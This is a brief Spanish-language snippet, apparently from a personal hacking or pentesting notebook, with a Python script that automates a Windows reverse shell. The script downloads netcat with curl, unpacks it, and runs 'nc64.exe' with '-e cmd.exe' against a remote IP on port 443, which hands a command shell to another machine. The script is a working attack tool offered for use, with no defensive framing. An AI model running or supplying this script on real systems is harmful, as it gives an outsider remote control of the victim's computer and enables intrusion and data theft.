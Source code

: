 Podemos automatizar en un solo script de Python que netcat se descargue y se ejecute de esta manera:
```python
import os
import shutil

os.system("curl https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip -o netcat.zip")
shutil.unpack_archive("netcat.zip")
os.chdir("netcat-1.11")
os.system("nc64.exe 192.168.0.30 443 -e cmd.exe")
```
![[Pasted image 20221217090951.png]]
